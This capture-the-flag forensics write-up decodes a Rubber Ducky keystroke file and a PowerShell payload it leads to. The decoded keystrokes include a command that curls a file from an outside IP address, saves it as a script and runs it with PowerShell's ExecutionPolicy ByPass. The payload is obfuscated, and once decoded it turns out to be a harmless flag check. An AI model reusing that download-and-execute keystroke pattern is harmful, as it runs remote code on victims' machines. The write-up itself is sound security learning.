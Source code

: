 ## Duck hunt (Forensics)

### [~$ cd ..](../)

We are given a [strange file](unkown.bin), not recognized by the `strings` command. The title of the challenge was quite helpful, and I guessed that it was
probably about Rubber Ducky. I then uploaded the file on https://ducktoolkit.com/decoder, and downloaded the [answer](duck_text.txt):

> ```
>DELAY
>ADELAY
>DELAY
>DELAY
>cd / & mkdir .haxor & cd .haxor & echo (curl -X GET  http://34.240.44.38/payload.txt) > file.PS1 & powershell -ExecutionPolicy ByPass -File file.ps1DELAY
> ```

I then downloaded the file payload.txt, and found an obfuscated powershell [code](payload.ps1).

> ```powershell
> ${;}=+$();
>${=}=${;};
>${+}=++${;};
>${@}=++${;};
>${.}=++${;};
>${[}=++${;};
>\n${]}=++${;};
>${(}=++${;};
>${)}=++${;};
>${&}=++${;};
>${|}=++${;};
>${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]";
>${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]);
>${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]
>"${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${(}${+}+${"}${&}${@}+${"}${+}${=}${+}+${"}${|}${)}+${"}${+}${=}${=}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${[}${]}+${"}${&}${=}+${"}${+}${+}${[}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${+}${@}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${(}${|}+${"}${+}${+}${=}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${.}${@}+${"}${+}${+}${(}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${.}${@}+${"}${+}${+}${@}+${"}${|}${)}+${"}${+}${+}${]}+${"}${+}${+}${]}+${"}${+}${+}${|}+${"}${+}${+}${+}+${"}${+}${+}${[}+${"}${+}${=}${=}+${"}${.}${|}+${"}${+}${.}+${"}${+}${=}+${"}${)}${.}+${"}${+}${=}${@}+${"}${[}${=}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${@}+${"}${[}${]}+${"}${+}${=}${+}+${"}${+}${+}${.}+${"}${.}${@}+${"}${.}${|}+${"}${)}${=}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${+}${@}${.}+${"}${+}${=}${]}+${"}${+}${+}${]}+${"}${|}${]}+${"}${|}${)}+${"}${|}${]}+${"}${+}${+}${[}+${"}${+}${+}${)}+${"}${|}${&}+${"}${|}${&}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${|}${]}+${"}${+}${=}${=}+${"}${+}${+}${)}+${"}${|}${|}+${"}${+}${=}${)}+${"}${+}${@}${+}+${"}${|}${]}+${"}${+}${+}${)}+${"}${+}${+}${]}+${"}${+}${=}${+}+${"}${+}${=}${=}+${"}${|}${]}+${"}${+}${+}${]}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${=}${+}+${"}${+}${+}${|}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${+}${=}${+}+${"}${.}${.}+${"}${+}${@}${]}+${"}${.}${|}+${"}${[}${+}+${"}${+}${@}${.}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${)}${+}+${"}${+}${+}${+}+${"}${+}${+}${+}+${"}${+}${=}${=}+${"}${.}${@}+${"}${)}${[}+${"}${+}${+}${+}+${"}${|}${&}+${"}${.}${.}+${"}${.}${|}+${"}${]}${|}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${[}+${"}${.}${(}+${"}${+}${=}${@}+${"}${+}${=}${&}+${"}${|}${)}+${"}${+}${=}${.}+${"}${.}${[}+${"}${+}${.}+${"}${+}${=}+${"}${+}${@}${]}"
> ```

I guessed that it was a big concatenation building the flag. It gave me:

![powershell](powershell.png)

or, in Python:

> ```python
>chr(36)+chr(102)+chr(108)+chr(97)+chr(103)+chr(61)+chr(82)+chr(101)+chr(97)+chr(100)+chr(45)+chr(72)+chr(111)+chr(115)+chr(116)+chr(32)+chr(45)+chr(80)+chr(114)+chr(111)+chr(109)+chr(112)+chr(116)+chr(32)+chr(39)+chr(69)+chr(110)+chr(116)+chr(101)+chr(114)+chr(32)+chr(116)+chr(104)+chr(101)+chr(32)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(111)+chr(114)+chr(100)+chr(39)+chr(13)+chr(10)+chr(73)+chr(102)+chr(40)+chr(102)+chr(108)+chr(97)+chr(103)+chr(32)+chr(45)+chr(101)+chr(113)+chr(32)+chr(39)+chr(70)+chr(108)+chr(97)+chr(103)+chr(123)+chr(105)+chr(115)+chr(95)+chr(97)+chr(95)+chr(114)+chr(117)+chr(98)+chr(98)+chr(101)+chr(114)+chr(95)+chr(100)+chr(117)+chr(99)+chr(107)+chr(121)+chr(95)+chr(117)+chr(115)+chr(101)+chr(100)+chr(95)+chr(115)+chr(111)+chr(109)+chr(101)+chr(119)+chr(104)+chr(101)+chr(114)+chr(101)+chr(33)+chr(125)+chr(39)+chr(41)+chr(123)+chr(13)+chr(10)+chr(9)+chr(87)+chr(114)+chr(105)+chr(116)+chr(101)+chr(45)+chr(72)+chr(111)+chr(115)+chr(116)+chr(32)+chr(39)+chr(71)+chr(111)+chr(111)+chr(100)+chr(32)+chr(74)+chr(111)+chr(98)+chr(33)+chr(39)+chr(59)+chr(13)+chr(10)+chr(9)+chr(87)+chr(114)+chr(105)+chr(116)+chr(101)+chr(45)+chr(72)+chr(111)+chr(115)+chr(116)+chr(32)+chr(34)+chr(36)+chr(102)+chr(108)+chr(97)+chr(103)+chr(34)+chr(13)+chr(10)+chr(125)
> ```

And finally, by rebuilding the string:

> ```powershell
>$flag=Read-Host -Prompt 'Enter the password'
>If(flag -eq 'Flag{is_a_rubber_ducky_used_somewhere!}'){
>	Write-Host 'Good Job!';
>	Write-Host "$flag"
>}
> ```


